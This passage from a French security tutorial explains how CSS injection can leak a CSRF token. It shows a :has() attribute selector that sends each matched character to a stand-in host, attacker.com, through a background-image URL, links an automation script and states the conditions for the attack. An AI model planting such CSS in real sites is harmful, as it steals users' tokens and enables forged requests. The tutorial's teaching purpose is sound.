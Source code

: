 {% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  form:has(input[name=csrf-token][value^=a]) {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

Cette technique ne fonctionne pas sur FireFox, ni sur IE, car ces navigateurs ne supportent pas cette pseudo-class :

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Automatisation de l'attaque

Un script d'automatisation exploitant l'injection CSS afin de récupérer une valeur d'un attribut existe déjà ici : [https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e). Son utilisation nécessite que la victime accède à la page malicieuse et que l'application vulnérable ciblée soit iframable (entêtes [X-Frame-Options](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-Frame-Options) et [frame-ancestors](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors)).

Le PoC ne possède pas la partie back-end. Il faudra donc le développer, mais il reste toutefois assez simple. De plus, étant donné qu'une seule requête est effectuée par position de caractère, il est possible que l'iframing résulte en une erreur HTTP `414 URI Too Long` et que l'attaque échoue.

Voici plusieurs PoC tentant de résoudre ces problèmes.

#### PoC - Récupération de la valeur d'un attribut d'un élément HTML via les sélecteurs d'attribut CSS
